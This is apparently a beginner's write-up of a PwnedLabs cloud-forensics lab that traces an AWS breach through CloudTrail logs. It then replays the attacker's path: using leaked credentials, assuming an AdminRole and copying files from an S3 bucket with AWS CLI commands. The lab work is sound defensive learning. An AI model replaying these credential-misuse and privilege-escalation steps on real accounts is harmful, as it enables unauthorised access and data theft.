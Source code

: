
# Breach in the Cloud - PwnedLabs Writeup

## Overview
This lab focuses on analyzing **AWS CloudTrail logs** to detect suspicious activity and identify how an attacker breached an AWS account. The goal is to simulate a real-world scenario where an attacker exploits misconfigured permissions to access sensitive data stored in an S3 bucket. As a beginner, this lab helped me understand the importance of monitoring and securing cloud environments.

---

## Lab Objectives
1. Analyze CloudTrail logs to identify suspicious activity.
2. Understand how attackers exploit misconfigured IAM roles and permissions.
3. Simulate an attacker's actions to validate the breach path.
4. Retrieve sensitive data from an S3 bucket.

---

## Tools Used
- **AWS CLI**: To interact with AWS services.
- **jq**: A command-line tool to prettify and parse JSON files.
- **grep**: To search through log files.
- **curl**: To check IP address information.

---

## Step-by-Step Walkthrough

### 1. Setting Up the Lab
The lab provided a zip file (`INCIDENT-3252.zip`) containing CloudTrail logs. These logs record all API calls made in an AWS account, which is useful for detecting suspicious activity.

#### Downloading and Extracting the Logs
1. I downloaded the `INCIDENT-3252.zip` file from the Pwned Labs Discord channel.
2. I unzipped the file using the following command:
   ```
     unzip INCIDENT-3252.zip -d INCIDENT-3252
     cd INCIDENT-3252 
2. Prettifying the JSON Logs
The CloudTrail logs were in JSON format but weren't easy to read. I used jq to prettify the JSON files for better analysis.

Installing jq
If not already installed, I installed jq using:


```sudo apt install jq```

Prettifying the Logs
I ran the following command to prettify all JSON files in the directory:

```for file in *.json; do jq . "$file" > "$file.tmp" && mv "$file.tmp" "$file"; done```
Now, the logs were much easier to read and analyze.

3. Identifying Suspicious Activity
I started by searching for all userName entries in the logs to identify any unusual accounts.

Searching for Usernames

```grep -r userName | sort -u```
This revealed a suspicious username: temp-user. This account didn't match the company's naming convention, so I decided to investigate further.

4. Analyzing the temp-user Account
I focused on the earliest log file (107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json) to see what actions temp-user performed.

Searching for temp-user Activity

```grep -h -A 10 temp-user 107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json```

The logs showed that temp-user executed the GetCallerIdentity command, which is similar to the whoami command in Linux. This command is often used by attackers to check the permissions of compromised credentials.

Key Findings:
IP Address: The request came from 84.32.71.19 (Turkey), which is not a location where the company operates.

Access Key ID: AKIARSCCN4A3WD4RO4P4

5. Investigating the IP Address
I used curl to check the IP address information:

```curl ipinfo.io/84.32.71.19```

The IP was located in Turkey, confirming that the activity was suspicious.

6. Enumerating Permissions
Next, I analyzed the logs to see what actions temp-user attempted. I found that the account tried to list the contents of an S3 bucket named emergency-data-recovery.

Searching for S3 Activity


```grep eventName 107513503799_CloudTrail_us-east-1_20230826T2120Z_UCUhsJa0zoFY3ZO0.json```


The logs showed that temp-user successfully downloaded a file named emergency.txt from the bucket.

7. Simulating the Attacker's Actions
To validate the breach path, I simulated the attacker's actions using the AWS CLI.

Configuring AWS CLI
I set up the AWS CLI with the compromised credentials:

```aws configure```

Checking Execution Context
I verified the execution context using:

```aws sts get-caller-identity```

Assuming the Admin Role
The logs revealed that temp-user assumed an IAM role named AdminRole. I simulated this action:

```aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name MySession```

After assuming the role, I verified the new execution context:

```aws sts get-caller-identity```

8. Accessing the S3 Bucket
With the elevated permissions, I listed the contents of the emergency-data-recovery bucket:

```aws s3 ls s3://emergency-data-recovery```

I then downloaded the sensitive files:

```aws s3 cp s3://emergency-data-recovery/emergency.txt .```
```aws s3 cp s3://emergency-data-recovery/message.txt .```

The file emergency.txt contained the flag, confirming the breach.

Key Takeaways
Monitor CloudTrail Logs: Regularly review CloudTrail logs to detect suspicious activity.

Secure IAM Roles: Avoid granting excessive permissions to IAM users and roles.

Restrict S3 Bucket Access: Ensure S3 buckets are not publicly accessible unless necessary.

Use Strong Credentials: Protect access keys and rotate them regularly.

Conclusion
This lab was an excellent introduction to cloud security. It taught me how attackers exploit misconfigured permissions and the importance of monitoring AWS activity. As a beginner, I now understand the critical role of securing cloud environments to prevent breaches.
